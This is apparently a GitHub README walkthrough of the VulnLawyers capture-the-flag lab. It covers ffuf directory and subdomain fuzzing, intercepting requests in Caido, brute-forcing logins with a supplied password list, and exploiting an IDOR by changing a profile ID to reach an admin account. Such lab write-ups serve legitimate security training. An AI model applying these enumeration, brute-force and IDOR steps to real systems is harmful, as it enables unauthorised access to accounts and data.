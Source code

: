 VulnLawyers - CTF Walkthrough

📁 Repository Overview

  This repository contains a full walkthrough of the VulnLawyers CTF, solved using only:
  https://github.com/0xDarkwaveSiren/Vulnlawyers_0xWalkthrough/blob/main/Screenshots/access-as-manager.png

    ffuf (directory and subdomain fuzzing)

    Caido (web proxy analysis)

  The methodology follows a clean, repeatable pentest format with all flags captured and documented.

  All screenshots and proof-of-work are stored in the _/screenshots_ directory.

🔧 Tools Used

  ffuf – Fast web fuzzer

  Caido – Web proxy for intercepting and manipulating requests

  Linux shell (Parrot OS)

🔍 Scope

    https://sufrin.ctfi/

🧠 Objective

  Gain access to the VulnLawyers web server, enumerate for vulnerabilities, escalate privileges, and capture all flags.

🛰️ 1. Recon

⚠️ Note: No ports were open for full nmap scan; proceeded directly to web-based fuzzing using known open access.

📂 2. Directory Fuzzing with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/FUZZ_

  Key results:

    /css
    /images
    /login

🌐 3. Subdomain Discovery with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/ -H "Host: FUZZ.sufrin.ctfi"_

  Key result:

    data

📂 4. Directory Fuzzing with ffuf (Subdomain: data)

  _ffuf -w subdomains.txt -u https://data.sufrin.ctfi/FUZZ_

  Key result:

    /users

🔐 5. Intercept & Analyze with Caido

  Interecepted GET _/users_

  Key finding:

    {
    "users": [{
        "name": "Yusef Mcclain",
        "email": "________________"
    }, {
        "name": "Shayne Cairns",
        "email": "_________________________"
    }, {
        "name": "Eisa Evans",
        "email": "________________________"
    }, {
        "name": "Jaskaran Lowe",
        "email": "_______________________"
    }, {
        "name": "Marsha Blankenship",
        "email": "_________________________"
    }],
    "flag": "[________________________________]"
    }

  Intercepted GET _/login_

  Key finding:

    /lawyers-only

  Intercepted POST _/lawyers-only_ (login attempt)

  Key findings (Structure):

    email=admin&password=admin

🛠️ 6. Login Access with Caido

  Automated Matrix Payloads with Caido

  Used usernames found in _/users_ domain and _passwords.txt_ file provided by HackingHub

  Gained credentials and access to _/lawyers-only-profile_

🔐 7. Intercept & Analyze with Caido

Intercepted GET _/lawyers-only-profile-details/4_ (attempted change of credentials)

  Key findings: 

  Insecure Direct Object Reference (IDOR)

    {
    "id": 4,
    "name": "___________",
    "email": "_____________________",
    "password": "_____________"
    }

🧍 8. Privilege Escalation 

  Replayed request with Caido

  GET _/lawyers-only-profile-details/2_

  Key findings:

  User that happens to be the case manager

    {
    "id": 2,
    "name": "Shayne Cairns",
    "email": "_______________",
    "password": "______________",
    "flag": "[____________________]"
    }

  Gained access as Shayne Cairns (Case Manger - Admin)

🏁 7. Flags Captured

Flag # 1

  Path: _https://sufrin.ctfi/users_

Flag # 2

  Caido Intercept: GET _/login_

Flag # 3

  Caido Intercept: GET _/users_

Flag # 4

  Staff Portal: _https://sufrin.ctfi/lawyers-only_

Flag # 5

  Caido Request Replay: GET _/lawyers-only-profile-details/2_
  
Flag # 6

  Staff Portal as Shayne Cairns and deleted current case.

📌 Lessons Learned

Efficient use of just 2 tools (ffuf, caido) is enough to fully compromise a box

Importance of analyzing requests carefully in Caido

Logic flaws and poorly implemented login mechanisms are often more exploitable than buffer overflows
